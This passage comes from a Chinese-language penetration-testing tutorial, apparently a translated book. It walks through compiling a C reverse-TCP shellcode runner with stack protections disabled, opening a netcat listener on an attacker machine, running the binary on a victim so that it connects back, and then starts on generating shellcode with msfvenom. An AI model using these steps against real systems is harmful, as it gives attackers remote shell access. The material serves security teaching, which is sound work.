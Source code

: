 ```
 {
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

让我们在我们的受害者机器上编译它：

```
$ gcc -fno-stack-protector -z execstack reverse-tcp-shellcode.c -o reverse-tcp-shellcode
```

然后，在我们的攻击者机器上设置一个监听器：

```
$ nc -lp 1234
```

现在，在我们的受害者机器上设置一个监听器：

```
$ ./reverse-tcp-shellcode
```

前面命令的输出显示在以下截图中：

![](img/00222.jpeg)

现在，我们连接到了攻击者的机器：

![](img/00223.gif)

我们成功了！

# 使用 Metasploit 生成 shellcode

在这里，事情比你想象的简单。我们将使用 Metasploit 为多个平台和多个架构生成 shellcode，并在一个命令中删除坏字符。

我们将使用 `msfvenom` 命令。让我们使用 `msfvenom -h` 显示所有选项：
